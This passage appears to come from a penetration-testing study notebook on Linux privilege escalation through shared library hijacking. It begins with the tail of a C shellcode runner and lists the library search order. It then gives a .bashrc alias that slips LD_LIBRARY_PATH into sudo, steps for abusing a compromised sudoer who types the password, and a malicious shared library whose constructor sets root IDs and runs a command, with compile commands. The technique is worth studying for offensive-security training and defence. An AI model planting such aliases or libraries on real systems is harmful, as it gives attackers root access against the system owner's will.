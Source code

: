 ```C
}
int (*ret)() = (int(*)())buf;
ret();
}
```

## Shared Libraries

Similar to the DLL_hijacking. The search for the shared libs in Linux is as follows:
1. Directories listed in the application’s RPATH 
2. Directories specified in the LD_LIBRARY_PATH environment variable.
3. Directories listed in the application’s RUNPATH 
4. Directories specified in /etc/ld.so.conf
5. System library directories: /lib , /lib64 , /usr/lib , /usr/lib64 , /usr/local/lib , /usr/local/lib64 , and potentially others.

### LD_LIBRARY_PATH

Our target is LD_LIBRARY_PATH as we can set it as the user. We can insert this line in the user's **.bashrc** or **.bash_profile**.
#priv-esc-linux 
```bash
alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib"
```

For both LD_LIBRARY_PATH and LD_PRELOAD, we require a victim with the password to exploit. The exploit process looks like this:
- we have compromised the victim user, who is the sudoer but needs the password
- we set the sudo alias to add the LD_LIBRARY_PATH to sudo for that user.
- The code would be executed as root, when the victim would execute the sudo command typing the password.

Simple malicoud shared library:
#priv-esc-linux #c #shared-lib
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> // for setuid/setgid
static void runmahpayload() __attribute__((constructor));
void runmahpayload() {
setuid(0);
setgid(0);
printf("DLL HIJACKING IN PROGRESS \n");
system("touch /tmp/haxso.txt");
}

// To compile:
// gcc -Wall -fPIC -c -o hax.o hax.c
// -fPIC is position independent, -c compiles but not link
// To create the shared lib:
// gcc -shared -o libhax.so hax.o

```
